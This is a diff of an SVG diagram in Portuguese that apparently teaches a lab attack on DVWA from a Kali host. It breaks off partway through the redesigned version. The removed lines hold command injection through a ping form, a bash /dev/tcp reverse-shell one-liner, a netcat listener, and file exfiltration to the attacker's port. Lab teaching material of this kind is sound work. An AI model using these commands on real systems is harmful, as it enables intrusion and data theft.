

- <svg xmlns="http://www.w3.org/2000/svg" viewBox="0 0 900 470" role="img" aria-labelledby="t d">
-   <style>
-     text { font-family: ui-monospace, "DejaVu Sans Mono", Menlo, Consolas, monospace; fill: #e6ede8; }
-     .t { font-size: 16px; font-weight: 700; }
-     .h { font-size: 12.5px; font-weight: 700; fill: #5cc8d8; }
-     .b { font-size: 12px; }
-     .c { font-size: 11px; fill: #5ee08a; }
-     .s { font-size: 10.5px; fill: #9fb0a6; }
-     .n { font-size: 13px; font-weight: 700; fill: #e8c46a; }
-     .ln { stroke: #3a4b42; stroke-width: 2; }
-     .fl { stroke: #5ee08a; stroke-width: 2.5; }
-   </style>
+ <svg xmlns="http://www.w3.org/2000/svg" viewBox="0 0 1300 800" width="1300" height="800" data-generator="fireworks-tech-graph" data-schema-version="1" data-text-metrics="heuristic-v1" data-style-id="2" data-visual-theme="Dark Terminal" data-diagram-type="architecture" data-motion-scene="" data-semantic-profile="generic" data-semantic-valid="true" data-quality-profile="standard" data-max-bends-per-edge="12" data-max-total-bends="100" data-max-route-stretch="5.0" data-max-bridged-crossings="8" data-min-node-gap="0.0" data-min-container-gutter="0.0" data-min-label-clearance="2.0" data-min-segment-length="0.0">
  <defs>
-     <marker id="a" viewBox="0 0 10 10" refX="9" refY="5" markerWidth="7" markerHeight="7" orient="auto">
-       <path d="M0 0 L10 5 L0 10 z" fill="#5ee08a" />
+     <marker id="arrowA" markerWidth="10" markerHeight="7" refX="9" refY="3.5" orient="auto">
+       <polygon points="0 0, 10 3.5, 0 7" fill="#a855f7" />
    </marker>
+     <marker id="arrowB" markerWidth="10" markerHeight="7" refX="9" refY="3.5" orient="auto">
+       <polygon points="0 0, 10 3.5, 0 7" fill="#22c55e" />
+     </marker>
+     <marker id="arrowC" markerWidth="10" markerHeight="7" refX="9" refY="3.5" orient="auto">
+       <polygon points="0 0, 10 3.5, 0 7" fill="#38bdf8" />
+     </marker>
+     <marker id="arrowE" markerWidth="10" markerHeight="7" refX="9" refY="3.5" orient="auto">
+       <polygon points="0 0, 10 3.5, 0 7" fill="#fb7185" />
+     </marker>
+     <marker id="arrowF" markerWidth="10" markerHeight="7" refX="9" refY="3.5" orient="auto">
+       <polygon points="0 0, 10 3.5, 0 7" fill="#f59e0b" />
+     </marker>
+     <marker id="arrowG" markerWidth="10" markerHeight="7" refX="9" refY="3.5" orient="auto">
+       <polygon points="0 0, 10 3.5, 0 7" fill="#f97316" />
+     </marker>
+     <marker id="arrowH" markerWidth="10" markerHeight="7" refX="9" refY="3.5" orient="auto">
+       <polygon points="0 0, 10 3.5, 0 7" fill="#94a3b8" />
+     </marker>
+     <linearGradient id="terminalGradient" x1="0%" y1="0%" x2="100%" y2="100%">
+       <stop offset="0%" stop-color="#0f0f1a" />
+       <stop offset="100%" stop-color="#1a1a2e" />
+     </linearGradient>
+     <filter id="glowBlue" x="-30%" y="-30%" width="160%" height="160%">
+       <feDropShadow dx="0" dy="0" stdDeviation="5" flood-color="#3b82f6" flood-opacity="0.65" />
+     </filter>
+     <filter id="glowPurple" x="-30%" y="-30%" width="160%" height="160%">
+       <feDropShadow dx="0" dy="0" stdDeviation="5" flood-color="#a855f7" flood-opacity="0.72" />
+     </filter>
+     <filter id="glowGreen" x="-30%" y="-30%" width="160%" height="160%">
+       <feDropShadow dx="0" dy="0" stdDeviation="5" flood-color="#22c55e" flood-opacity="0.62" />
+     </filter>
+     <filter id="glowOrange" x="-30%" y="-30%" width="160%" height="160%">
+       <feDropShadow dx="0" dy="0" stdDeviation="5" flood-color="#f97316" flood-opacity="0.62" />
+     </filter>
+     <style>
+     text { font-family: 'SF Mono', 'Fira Code', Menlo, 'Noto Sans CJK SC', 'Microsoft YaHei', 'SimHei', monospace; }
+     .title { font-size: 30px; font-weight: 700; fill: #e2e8f0; }
+     .subtitle { font-size: 14px; font-weight: 500; fill: #94a3b8; }
+     .section { font-size: 13px; font-weight: 700; fill: #38bdf8; letter-spacing: 1.4px; }
+     .section-sub { font-size: 12px; font-weight: 500; fill: #94a3b8; }
+     .node-title { font-weight: 700; fill: #e2e8f0; }
+     .node-sub { font-weight: 500; fill: #94a3b8; }
+     .node-type { font-size: 12px; font-weight: 700; fill: #94a3b8; letter-spacing: 0.08em; }
+     .arrow-label { font-size: 12px; font-weight: 600; fill: #cbd5e1; }
+     .legend { font-size: 12px; font-weight: 500; fill: #94a3b8; }
+     .footnote { font-size: 12px; font-weight: 500; fill: #94a3b8; }
+     .metric-label { font-size: 8.5px; font-weight: 700; fill: #94a3b8; text-transform: uppercase; }
+     .metric-value { font-size: 9.5px; font-weight: 700; fill: #e2e8f0; }
+     </style>
  </defs>
-   <rect width="900" height="470" fill="#121815" />
-   <text class="t" x="30" y="34">Uma injeção de comando vira controle interativo do alvo</text>
-   <rect x="20" y="58" width="250" height="372" rx="10" fill="#16201b" stroke="#5ee08a" />
-   <text class="h" x="36" y="84">Kali  (atacante, 10.0.0.2)</text>
-   <rect x="630" y="58" width="250" height="372" rx="10" fill="#16201b" stroke="#2c3a33" />
-   <text class="h" x="646" y="84">DVWA  (alvo, 10.0.0.3)</text>
-   <text class="s" x="646" y="102">processo web: www-data</text>
-   <text class="n" x="36" y="130">1</text>
-   <rect x="54" y="114" width="200" height="46" rx="8" fill="#1d2a23" stroke="#5ee08a" />
-   <text class="b" x="66" y="134">listener</text>
-   <text class="c" x="66" y="151">nc -lvnp 4444</text>
-   <text class="n" x="300" y="130">2</text>
-   <rect x="320" y="110" width="290" height="54" rx="8" fill="#1d2a23" stroke="#e8c46a" />
-   <text class="b" x="332" y="130">injeção de comando (form de ping)</text>
-   <text class="s" x="332" y="150">127.0.0.1 ; &lt;comando&gt;  → roda como www-data</text>
-   <line class="ln" x1="254" y1="137" x2="320" y2="137" marker-end="url(#a)" />
-   <text class="n" x="300" y="210">3</text>
-   <rect x="320" y="190" width="290" height="58" rx="8" fill="#1d2a23" stroke="#2c3a33" />
-   <text class="b" x="332" y="210">reverse shell injetado</text>
-   <text class="c" x="332" y="228">bash -i &gt;&amp; /dev/tcp/10.0.0.2/4444 0&gt;&amp;1</text>
-   <text class="s" x="332" y="243">o alvo liga de volta pela lab_net</text>
-   <line class="fl" x1="320" y1="219" x2="254" y2="170" marker-end="url(#a)" />
-   <text class="s g" x="150" y="186">shell burro</text>
-   <text class="n" x="36" y="300">4</text>
-   <rect x="54" y="280" width="200" height="58" rx="8" fill="#1d2a23" stroke="#5ee08a" />
-   <text class="b" x="66" y="300">upgrade p/ PTY</text>
-   <text class="c" x="66" y="318">script -qc /bin/bash</text>
-   <text class="s" x="66" y="333">Ctrl-C, tab, sem eco de senha</text>
-   <text class="n" x="36" y="382">5</text>
-   <rect x="54" y="362" width="200" height="54" rx="8" fill="#1d2a23" stroke="#5ee08a" />
-   <text class="b" x="66" y="382">exfiltra arquivo</text>
-   <text class="c" x="66" y="400">nc -lvnp 4445 &gt; loot</text>
-   <text class="s" x="66" y="414">confere com sha256sum</text>
-   <rect x="320" y="300" width="290" height="116" rx="8" fill="#16201b" stroke="#2c3a33" />
-   <text class="s" x="336" y="324">o alvo só tem bash, perl, php e curl;</text>
-   <text class="s" x="336" y="342">NÃO tem nc nem python3. Por isso</text>
-   <text class="s" x="336" y="360">o canal usa bash /dev/tcp, e a</text>
-   <text class="s" x="336" y="378">transferência manda com</text>
-   <text class="c" x="336" y="396">cat arquivo &gt; /dev/tcp/10.0.0.2/4445</text>
-   <text class="s" x="336" y="412">caindo no listener do Kali (etapa 5).</text>
-   <text class="s" x="30" y="452">As setas verdes são conexões que partem do alvo para o Kali: é por elas que o reverse shell e a exfiltração passam.</text>
+   <rect data-graph-role="background" width="1300.0" height="800.0" fill="url(#terminalGradient)" />
+   <circle cx="20.0" cy="20" r="5.5" fill="#ef4444" />
+   <circle cx="38.0" cy="20" r="5.5" fill="#f59e0b" />
+   <circle cx="56.0" cy="20" r="5.5" fill="#10b981" />
+   <text x="650.0" y="56" text-anchor="middle" class="title">Uma injeção de comando vira controle interativo do alvo</text>
+   <text x="650.0" y="82" text-anchor="middle" class="subtitle">o momento-chave: o alvo liga de volta para o Kali, e um comando por vez vira um shell</text>
+   <g id="kali" data-graph-role="container" data-container-id="kali" data-semantic-role="boundary" data-graph-bounds="40,120,560,680">
+     <rect data-graph-role="container" x="40.0" y="120.0" width="520.0" height="560.0" rx="16.0" fill="rgba(15,23,42,0.28)" stroke="#334155" stroke-width="1.4" stroke-dasharray="7 6" />
+     <text x="58.0" y="144.0" class="section">KALI (atacante, 10.0.0.2)</text>
+     <rect id="kali-header" data-graph-role="reserved" data-reserved-kind="container-header" x="48" y="126" width="195.88" height="30" fill="none" stroke="none" />
+   </g>
+   <g id="dvwa" data-graph-role="container" data-container-id="dvwa" data-semantic-role="boundary" data-graph-bounds="780,120,1260,520">
+     <rect data-graph-role="container" x="780.0" y="120.0" width="480.0" height="400.0" rx="16.0" fill="rgba(15,23,42,0.28)" stroke="#334155" stroke-width="1.4" stroke-dasharray="7 6" />
+     <text x="798.0" y="144.0" class="section">DVWA (alvo, 10.0.0.3)</text>
+     <rect id="dvwa-header" data-graph-role="reserved" data-reserved-kind="container-header" x="788" y="126" width="168.84" height="30" fill="none" stroke="none" />
+   </g>
+   <path id="e3" data-graph-role="edge" data-edge-id="e3" data-source="bash" data-target="lis" data-edge-kind="flow" data-topic-id="" data-flow="" data-motion-role="" data-motion-stage="" data-motion-order="" data-protocol="" data-via="" data-critical-path-id="" data-critical-hop="" data-critical-hops="" data-critical="false" data-bends="2" data-route-stretch="1.0" data-bridges="" d="M 820,420 L 670,420 L 670,230 L 480,230" fill="none" stroke="#22c55e" stroke-width="2.3" stroke-linecap="round" stroke-linejoin="round" marker-end="url(#arrowB)" />
+   <path id="e5" data-graph-role="edge" data-edge-id="e5" data-source="bash" data-target="loot" data-edge-kind="flow" data-topic-id="" data-flow="" data-motion-role="" data-motion-stage="" data-motion-order="" data-protocol="" data-via="" data-critical-path-id="" data-critical-hop="" data-critical-hops="" data-critical="false" data-bends="1" data-route-stretch="1.0" data-bridges="" d="M 1020,480 L 1020,590 L 480,590" fill="none" stroke="#22c55e" stroke-width="2.3" stroke-linecap="round" stroke-linejoin="round" marker-end="url(#arrowB)" />
+   <path id="e2" data-graph-role="edge" data-edge-id="e2" data-source="inj" data-target="bash" data-edge-kind="flow" data-topic-id="" data-flow="" data-motion-role="" data-motion-stage="" data-motion-order="" data-protocol="" data-via="" data-critical-path-id="" data-critical-hop="" data-critical-hops="" data-critical="false" data-bends="0" data-route-stretch="1.0" data-bridges="" d="M 1020,290 L 1020,360" fill="none" stroke="#38bdf8" stroke-width="2.3" stroke-linecap="round" stroke-linejoin="round" marker-end="url(#arrowC)" />
+   <path id="e4" data-graph-role="edge" data-edge-id="e4" data-source="lis" data-target="pty" data-edge-kind="flow" data-topic-id="" data-flow="" data-motion-role="" data-motion-stage="" data-motion-order="" data-protocol="" data-via="" data-critical-path-id="" data-critical-hop="" data-critical-hops="" data-critical="false" data-bends="0" data-route-stretch="1.0" data-bridges="" d="M 280,290 L 280,360" fill="none" stroke="#94a3b8" stroke-width="2.3" stroke-linecap="round" stroke-linejoin="round" marker-end="url(#arrowH)" />
+   <g id="node-lis" data-graph-role="node" data-node-id="lis" data-semantic-role="node" data-motion-role="" data-motion-stage="" data-motion-order="" data-parent="kali" data-deployment-id="" data-topic-id="" data-span-id="" data-station-order="" data-status="" data-start-ms="" data-duration-ms="" data-parent-span="" data-graph-bounds="80,170,480,290">
+     <rect x="80.0" y="170.0" width="400.0" height="120.0" rx="10.0" fill="#0f172a" stroke="#64748b" stroke-width="1.8" />
+     <text x="280.0" y="188.0" text-anchor="middle" class="node-type">PASSO 1</text>
+     <text data-text-role="title" data-full-text="Listener à espera" data-text-max-width="376.0" x="280.0" y="236.0" text-anchor="middle" class="node-title" font-size="18">Listener à espera</text>
